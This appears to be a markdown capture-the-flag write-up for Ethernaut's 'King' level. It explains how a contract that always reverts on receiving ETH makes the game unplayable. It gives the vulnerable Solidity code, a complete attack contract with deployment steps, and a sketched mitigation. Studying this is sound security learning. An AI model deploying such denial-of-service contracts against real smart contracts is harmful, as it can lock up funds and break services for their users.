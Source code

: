 ```yaml
---
title: Level 9 - King
slug: level-9
published: 05-17-2023
lastEdited:
---
```


## Objectives

1. Break the game by making is unplayable.

## Vulnerabilities

### Flawed game logic

The game logic has a flaw. When a new king is crowned, the game contract send the previous king the prize amount.

```solidity
receive() external payable {
  require(msg.value >= prize || msg.sender == owner);
  payable(king).transfer(msg.value);
  king = msg.sender;
  prize = msg.value;
}
```

As it is implemented, the game breaks if that previous king can't receive eth. For this exploit, we make the king
a contract that reverts everytime it receivers eth

```solidity
receive() external payable {
    revert();
}
```

## Exploit

1. Write and deploy the following hack contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IKing {function prize() external view returns(uint);}

contract KingHack {
    IKing target;

    constructor(address _targetAddress){
        target = IKing(_targetAddress);
    }

    function attack() external payable {
        require(msg.value >= target.prize() , "Not enough Eth");
        (bool success,) = address(target).call{value: msg.value}("");
        require(success, "Transaction not succssful");
    }

    receive() external payable {
        revert();
    }
}
```

2. Call the `attack` function to break the game.

## Suggested mitigation

1. Replace `transfer` by `call` which

```solidity
receive() external payable {
  require(msg.value >= prize || msg.sender == owner);
  (bool success, ) = payable(king).call{value: msg.value}("");
  if(success){
    king = msg.sender;
    prize = msg.value;
  } else {
    // Some logic for when call fails.
  }

}
```

## Further reading

- King of the ether post-mortem <ExternalLink href={"http://www.kingoftheether.com/postmortem.html"} />
